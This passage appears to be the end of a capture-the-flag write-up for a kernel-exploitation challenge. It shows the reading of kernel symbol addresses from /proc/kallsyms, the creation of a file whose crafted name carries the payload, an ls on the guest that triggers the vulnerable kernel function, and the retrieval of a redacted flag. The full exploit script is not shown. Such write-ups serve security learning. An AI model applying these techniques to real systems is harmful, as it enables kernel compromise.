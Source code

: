 ```python
f = open(payload, "w+").close()
```

All we'll have to once we have load the guest, is to get the address of ecsc_end and sys_exit.


Guest:
```
/ $ cd mnt/share/
/mnt/share $ ls
ex          exploit.py
/mnt/share $ cat /proc/kallsyms | grep  "ecsc_end\|sys_exit"
ffffffff8663a390 T sys_exit
ffffffff8663a420 T sys_exit_group
ffffffffc010436e t ecsc_end     [ecsc]
/mnt/share $ 
```

Host:
```
➜  dev ./exploit.py 
➜  dev ls
'ecsc_flag_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaan'$'\363''3'$'\300\377\377\377\377\220\243\003\226\377\377\377\377'
 ex
 exploit.py
```

We, then perform a `ls` on guest in order to call the vulnerable kernel function.

```
/mnt/share $ ls
/mnt/share $ 
```
Okay, we called `ecsc_end` and `sys_exit`, it didn't crashed, let's see if it worked.

```
/mnt/share $ cd /
/ $ ls
bin                 home                proc                tmp
dev                 init                root                var
ecsc_flag_REDACTED  lib                 run
etc                 mnt                 sys
/ $ cat ecsc_flag_REDACTED 
ECSC{REDACTED}
/ $ 
```

Yay ! Success, all we have to do now, is exactly the same on the remote ssh server, and we're done.

Thank you for readding, hope you enjoyed this writeup, and special thanks to the author of this challenge, which was really fun !

This was Pycatchown for ya', keep hacking !
